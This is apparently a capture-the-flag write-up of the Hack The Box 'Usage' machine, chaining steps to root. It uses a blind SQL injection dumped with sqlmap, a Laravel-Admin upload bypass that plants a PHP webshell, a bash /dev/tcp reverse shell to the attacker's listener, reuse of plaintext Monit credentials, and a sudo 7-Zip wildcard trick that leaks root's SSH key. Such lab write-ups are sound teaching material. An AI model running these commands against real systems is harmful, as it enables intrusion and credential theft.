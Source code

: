 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - Blind [SQL Injection](SQL Injection) in password reset  
  - PHP webshell upload via extension bypass in Laravel‑Admin over [HTTP](HTTP)  
  - 7‑Zip wildcard symlink exploit for file read  

**Open Ports:**
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP) 80/tcp  

**Tools:**
- [nmap](nmap)  
- [ffuf](ffuf)  
- [sqlmap](sqlmap)  
- [hashcat](hashcat)  
- [Burp](Burp)  
- [sshpass](sshpass)  
- [nc](nc)  
- [7z](7z)  

---

## Recon 🔍
```bash
# Find live ports
nmap -p- --min-rate 10000 10.10.11.18

# Service/version detection
nmap -p 22,80 -sCV 10.10.11.18

# Virtual‑host discovery
ffuf -u http://10.10.11.18 -H "Host: FUZZ.usage.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
````

---

## Shell as dash 🐚

1. **Confirm blind [SQL Injection](SQL Injection)**
    
    ```bash
    # Test on password reset
    curl -X POST 'http://usage.htb/forgot-password' \
         -d "email=' or 1=1-- -"
    ```
    
2. **Dump database with sqlmap**
    
    ```bash
    sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch --dbs
    sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch \
           -D usage_blog --tables
    sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch \
           -D usage_blog -T admin_users --dump
    ```
    
3. **Crack the admin hash**
    
    ```bash
    echo "$HASH" > admin.hash
    hashcat -m 3200 admin.hash rockyou.txt
    ```
    
4. **Bypass file‑extension in Laravel‑Admin**
    
    - Upload `0xdf.php.jpg`, intercept in **Burp**, rename to `.php`
        
    - Access shell:
        
        ```
        http://admin.usage.htb/uploads/images/0xdf.php?cmd=id
        ```
        
5. **Get reverse shell**
    
    ```bash
    nc -lnvp 443
    curl 'http://admin.usage.htb/uploads/images/0xdf.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    ```
    

---

## Shell as xander 👤

1. **Grab Monit creds** from dash’s home:
    
    ```bash
    grep -R "allow admin" /home/dash/.monitrc
    # → 3nc0d3d_pa$$w0rd
    ```
    
2. **Switch user**:
    
    ```bash
    su - xander
    ```
    
    or via [SSH](https://chatgpt.com/c/SSH):
    
    ```bash
    sshpass -p '3nc0d3d_pa$$w0rd' ssh xander@usage.htb
    ```
    

---

## Shell as root 👑

1. **Abuse NOPASSWD sudo on `usage_management`**
    
    ```bash
    cd /var/www/html
    touch @file; ln -fs /root/.ssh/id_rsa file
    sudo /usr/bin/usage_management
    ```
    
2. **Extract private key** from 7‑Zip warnings, clean it, then:
    
    ```bash
    chmod 600 usage-root
    ssh -i usage-root root@usage.htb
    ```
    

---

## Actions Learned 🎓

- Mastered blind [SQL Injection](SQL Injection) with **sqlmap**
    
- Bypassed extension checks in **Laravel‑Admin** for RCE
    
- Extracted service creds from **monit** config
    
- Leveraged wildcard expansion in **7z** via NOPASSWD sudo to leak files
    
- Chained full path: Recon → User (dash) → Admin (xander) → Root
    

---

## References 🔗

- CVE-2023-24249 – Laravel‑Admin file upload extension bypass
    
- HackTricks: 7‑Zip wildcard symlink attack
    
- [Laravel‑Admin GitHub](https://github.com/laravel-admin-extensions/laravel-admin)